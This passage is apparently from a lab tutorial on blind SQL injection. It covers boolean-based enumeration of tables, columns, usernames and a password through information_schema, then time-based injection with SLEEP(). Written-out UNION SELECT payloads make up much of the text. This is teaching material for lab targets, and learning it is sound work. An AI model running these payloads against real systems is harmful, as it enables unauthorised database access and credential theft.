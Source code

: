 This query looks for results in the `information_schema` database in the tables table where the database name matches `sqli_three`, and the table name begins with the letter a. As the above query results in a false response, we can confirm that there are no tables in the `sqli_three` database that begin with the letter a. Like previously, you'll need to cycle through letters, numbers and characters until you find a positive match.
```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
```

Once you've found the column named `id`, you'll append that to your original payload (as seen below).
```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';
```

Repeating this process three times will enable you to discover the columns' id, username and password. Which now you can use to query the users table for login credentials. First, you'll need to discover a valid username, which you can use the payload below:
```sql
admin123' UNION SELECT 1,2,3 from users where username like 'a%
```

Now you've got the username. You can concentrate on discovering the password. The payload below shows you how to find the password:
```sql
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```

Cycling through all the characters, you'll discover the password is 3845.

#### Time-Based SQLi

A time-based blind SQL injection is very similar to the above boolean-based one in that the same requests are sent, but there is no visual indicator of your queries being wrong or right this time. Instead, your indicator of a correct query is based on the time the query takes to complete. This time delay is introduced using built-in methods such as `SLEEP(x)` alongside the UNION statement. The `SLEEP()` method will only ever get executed upon a successful UNION SELECT statement.

When trying to establish the number of columns in a table, you would use the following query:
```
admin123' UNION SELECT SLEEP(5);--
```

If there was no pause in the response time, we know that the query was unsuccessful, so like on previous tasks, we add another column:
```
admin123' UNION SELECT SLEEP(5),2;--
```

This payload should have produced a 5-second delay, confirming the successful execution of the UNION statement and that there are two columns.

You can now repeat the enumeration process from the Boolean-based SQL injection, adding the SLEEP() method to the UNION SELECT statement.
```
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--
```
